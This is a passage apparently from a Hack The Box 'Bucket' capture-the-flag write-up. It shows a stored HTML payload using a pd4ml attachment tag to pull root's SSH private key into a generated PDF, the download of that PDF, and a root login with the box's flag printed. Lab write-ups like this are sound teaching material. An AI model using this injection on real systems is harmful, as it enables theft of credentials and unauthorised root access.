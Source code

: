 ```bash
{
    "ConsumedCapacity": {
        "TableName": "alerts",
        "CapacityUnits": 1.0
    }
}
{
    "Items": [
        {
            "title": {
                "S": "Ransomware"
            },
            "data": {
                "S": "<html><pd4ml:attachment src=\"file:///root/.ssh/id_rsa\" description=\"attachment sample\" icon=\"Paperclip\"/>"
            }
        }
    ],
    "Count": 1,
    "ScannedCount": 1,
    "ConsumedCapacity": null
}
--2021-04-29 12:43:23--  http://localhost:8000/files/result.pdf
Resolving localhost (localhost)... ::1, 127.0.0.1
Connecting to localhost (localhost)|::1|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 19338 (19K) [application/pdf]
Saving to: ‘result.pdf.1’

result.pdf.1                                       100%[=============================================================================================================>]  18.88K  --.-KB/s    in 0s      

2021-04-29 12:43:23 (58.1 MB/s) - ‘result.pdf.1’ saved [19338/19338]
```

This outputs a pdf into our local filesystem:

![Seeing a PDF file in our folder with a paperclip icon](/assets/images/blogs/Pasted image 20210429124611.png)

Clicking the paperclip gives us the SSH key!

![An SSH key as an attachment](/assets/images/blogs/Pasted image 20210429124714.png)

We can copy and paste and save this key, then SSH in as root:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/ssh]
└─$ ssh -i root_ssh root@10.10.10.212
...[snip]...
root@bucket:~# cat root.txt 
d2d9f1dd102ca4d5bd9b9ebf62e3f604
```

That's the box!